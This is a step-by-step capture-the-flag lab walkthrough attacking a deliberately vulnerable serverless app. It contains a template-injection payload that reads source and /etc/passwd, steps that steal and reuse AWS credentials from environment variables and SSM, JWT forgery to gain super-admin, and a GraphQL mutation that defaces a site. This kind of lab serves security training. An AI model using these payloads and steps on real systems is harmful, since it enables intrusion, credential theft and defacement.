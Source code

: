 # **Serverless Attack**


### *The goal of the attack is to:*

* ##### Gain access to a Serverless function
* ##### Steal meta-data from the said function
* ##### Use the stolen data to compromise AWS service(s)
* ##### Gain access to AWS service(s), steal necessary information
* ##### Deface a [website](https://serverless-defaceme.netlify.com/) that using the info

-------

#### Step 1:

* Access the [Serverless-Attack](https://serverless-attack.netlify.com) Application on the browser.

```commandline
https://serverless-attack.netlify.com
```

* Register and Login to the Application

### *Note: The details provided CAN be fake and we highly recommend it!*

-------

#### Step 2:

* Once logged in, copy the value of `token` that can be found in `Session Storage` under the `Storage` section in `developer tools`

* Click on the `File-Upload` icon present in the header

* Click on the `Upload` button and upload the `readme.txt` file. It can be observed that the contents of the file is rendered on the UI

### *Note: It only accepts `.txt` files.*

### *What are the potential attacks based on this functionality???*

-------

#### Step 3:

* Similar to **Step 2**, upload `malicious-file.txt` and observe the output rendered on the UI

-------

#### Step 4:

* Sensitive information like the ones mentioned below can be fetched from the environment variables:

    * `AWS_SESSION_TOKEN`

    * `AWS_SECURITY_TOKEN`

    * `AWS_ACCESS_KEY_ID`

    * `AWS_DEFAULT_REGION`

    * `AWS_SECRET_ACCESS_KEY`


* On the Server provisioned, set the values fetched from the previous step as `Enironment variables`


```bash
export AWS_SESSION_TOKEN=<VALUE-OF-AWS_SESSION_TOKEN>

export AWS_SECURITY_TOKEN=<VALUE-OF-AWS_SECURITY_TOKEN>

export AWS_ACCESS_KEY_ID=<VALUE-OF-AWS_ACCESS_KEY_ID>

export AWS_DEFAULT_REGION=<VALUE-OF-AWS_DEFAULT_REGION>

export AWS_SECRET_ACCESS_KEY=<VALUE-OF-AWS_SECRET_ACCESS_KEY>
```

-------

#### Step 5:

* Similar to **Step 2**, upload `read-etc-pwd.txt` and `read-py-files.txt`.

* By observing the results, we were able to fetch the source-code of application. By further investigation of the source-code, we can see that `auth` is imported.

* Edit `read-py-files.txt` file to fetch source-code of `auth.py` and upload the file

```bash
{{ ''.__class__.__mro__[2].__subclasses__()[40]('auth.py').read() }}
```

* From `auth.py`, it can be observed that `AWS SSM` is being used and `JWT_PASS` is the parameter that needs to be fetched.

-------

#### Step 6:

* Use `awscli` to fetch decrypted `JWT_PASS` from `SSM` 

### *Note: Ensure that `awscli` has been installed and the AWS `environment variables` have been set*

```commandline
aws ssm get-parameters --names "JWT_PASS" --with-decryption
```

* The `Value` fetched in encoded with `base64`. Decode to get the private key.

```commandline
echo "<JWT_PASS value>" | base64 --d > privkey
```

* Using the private key, create a public key using `openssl`

```commandline
openssl rsa -in privkey -pubout -outform PEM -out public.key.pub
```

-------

#### Step 7:

* Access [`jwt.io`](https://jwt.io) on the browser and paste the `JWT Token` fetched in **Step 2**.

* Paste the value of `privkey` and `public.key.pub` under the `Verify Signature` section.

* The `Payload` data can now be tampered with

-------

#### Step 8:

* On a separate tab, access the `DefaceMe` web application.

```commandline
https://serverless-defaceme.netlify.com/
```

* On the browser, select the `Networks` tab that can be found in `developer tools`.

* It can be observed that there's a **`POST`** method being called when the web application is loaded.

* Copy and access the `URL` that the `POST` method is used on

```commandline
https://ctf-gql.we45.dev/graph
```

### *The website is using `GraphQL`*

-------

#### Step 9:

* Paste the `GraphQL` URL on a `REST Client` on your machine.

```commandline
https://ctf-gql.we45.dev/graph
```

### *We'll be using [Insomnia](https://insomnia.rest/)*

* On the `Rest Client`(Insomnia), select the method as **`POST`** and structure as **`GraphQL`**

* `Refresh` the schema and try to perform a `query` leveraging the `Auto Completion` provided by GraphQL.

### *It can be observed that a user has to be authorized to make changes on GraphQL*

-------

#### Step 10:

* On the [`jwt.io`](https://jwt.io) tab, tamper the value of **`isSuperAdmin`** to `true` and copy the `JWT Token`.

```commandline
isSuperAdmin:true
```

-------

#### Step 11:

* Under the `Header` tab on the `REST Client`(Insomnia), add `authorization` and paste the value of the `JWT Token`

* Perform a query to confirm if the token is working.

**EXAMPLE**:

```commandline
query{
  users {
    id
    email
    firstName
    lastName
    walletId
    openingBalance
  }
}
```

-------

#### Step 12:

* Update the mutation to deface the web application

```commandline
mutation{
  createPage(body:"Changed", header:"Defaced", image:"<your favourite gif here>.gif")
  {
    newPage{
      header
      body
      image
    }
  }
}
```

* Access the [`DefaceMe`](https://serverless-defaceme.netlify.com/
) web application to see if the attack was successful.

--------

### Reading Material/References:



